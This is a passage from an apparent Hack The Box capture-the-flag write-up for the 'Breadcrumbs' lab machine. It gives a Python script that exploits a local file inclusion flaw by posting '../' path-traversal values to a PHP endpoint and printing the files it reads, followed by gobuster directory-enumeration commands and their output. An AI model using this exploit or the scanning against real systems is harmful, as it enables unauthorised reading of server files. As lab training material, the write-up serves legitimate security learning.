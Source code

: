 
![](/src/gifs/bingobango.gif)

But this content is gibberish, let's beautify it.

Here is a 5-line python script to do that job.

__lfi.py__

```python
import requests, sys
file = "../" + sys.argv[1]
data = {'book': file, 'method': '1'}
r = requests.post('http://10.10.10.228/includes/bookController.php', data=data)
print(bytes(r.text, 'utf-8').decode('unicode_escape').strip('"').replace('\/','/'))
```

Let's fuzz the web and try to read contents of the files we encounter.

### Gobuster

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> gobuster -q dir -u http://10.10.10.228/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x .txt,.php,.aspx,.asp,.html,.xhtml -e -r -b 404,403
http://10.10.10.228/includes             (Status: 200) [Size: 1206]
http://10.10.10.228/index.php            (Status: 200) [Size: 2368]
http://10.10.10.228/js                   (Status: 200) [Size: 1187]
http://10.10.10.228/css                  (Status: 200) [Size: 1183]
http://10.10.10.228/db                   (Status: 200) [Size: 971] 
http://10.10.10.228/php                  (Status: 200) [Size: 976] 
http://10.10.10.228/.                    (Status: 200) [Size: 2368]
http://10.10.10.228/portal               (Status: 200) [Size: 2508]
http://10.10.10.228/books                (Status: 200) [Size: 2462]
http://10.10.10.228/examples             (Status: 503) [Size: 401]
```

We see a directory (?) named `portal`, let's scan it too and see if we get valuables.

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> gobuster -q dir -u http://10.10.10.228/portal -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x .txt,.php,.aspx,.asp,.html,.xhtml -e -r -b 404,403
http://10.10.10.228/portal/includes             (Status: 200) [Size: 1668]
http://10.10.10.228/portal/login.php            (Status: 200) [Size: 2508]
http://10.10.10.228/portal/index.php            (Status: 200) [Size: 2508]
http://10.10.10.228/portal/logout.php           (Status: 200) [Size: 2508]
http://10.10.10.228/portal/uploads              (Status: 200) [Size: 795] 
http://10.10.10.228/portal/assets               (Status: 200) [Size: 1418]
http://10.10.10.228/portal/db                   (Status: 200) [Size: 992] 
http://10.10.10.228/portal/php                  (Status: 200) [Size: 1629]
http://10.10.10.228/portal/signup.php           (Status: 200) [Size: 2735]
http://10.10.10.228/portal/.                    (Status: 200) [Size: 2508]
http://10.10.10.228/portal/vendor               (Status: 200) [Size: 1861]
http://10.10.10.228/portal/cookie.php           (Status: 200) [Size: 0]
```
